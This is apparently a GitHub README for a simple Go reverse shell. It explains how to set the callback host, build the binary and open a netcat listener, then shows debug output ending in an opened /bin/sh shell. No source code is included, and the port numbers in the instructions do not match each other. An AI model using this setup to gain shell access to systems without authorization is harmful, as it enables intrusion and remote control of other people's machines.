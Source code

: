 # reverse-shell-go

### Simple reverse shell written in go

To use: 
- Set the host address near the top to your server. `const host = "127.0.0.1:1234`
- Build using `go build main.go`
- Start listening on the server using `netcat -l -p 8080`

Example debug output
```
github.com/orf1/reverse-shell-go
Attempting to establish tcp connection with server
dial tcp 127.0.0.1:8080: connect: connection refused
Attempting to establish tcp connection with server
Detecting operating system
Detected mac or linux, using /bin/sh
binding standard interfaces to connection
shell opened
```
<img width="572" alt="Screen Shot 2022-08-08 at 2 47 48 PM" src="https://user-images.githubusercontent.com/39539212/183520624-33592bda-2509-435b-8eb3-a5b04f590eb7.png">

